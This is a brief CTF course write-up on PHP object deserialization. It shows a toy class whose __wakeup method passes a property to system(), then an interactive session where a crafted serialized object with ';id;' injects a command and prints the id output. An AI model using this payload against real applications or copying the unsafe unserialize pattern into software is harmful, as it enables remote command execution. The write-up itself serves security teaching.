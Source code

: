 ```yaml
---
title: Simple Web 0x16.5(php unserialize)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x16.5(php unserialize)
###### tags: `NTUSTWS` `CTF` `Web`

## Background
php magic method 
![](https://i.imgur.com/xQrh7vo.png)

## Source code
```php=
class cat
{
    public $sound = 'ls';
    function __wakeup()
    {
        system("echo".$this->sound);
    }
}
$cat = unserialize($_GET['cat']);
```

## Description & Analyze
```bash!
$ php -a
php > class cat
php >  public {
php {     public $sound = 'ls';
php {     function __wakeup()
php {     {
php {         system("echo ".$this->sound);
php {     }
php { }
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:"meow";}';
php > $cat = unserialize($_GET['cat']);
meow
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:";id;";}';
php > $cat = unserialize($_GET['cat']);

uid=1000(sbk6401) gid=1000(sbk6401) groups=1000(sbk6401),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
```
This is a typical command injection. The magic method `__wakeup()` will be called when unserialized something.

## Reference
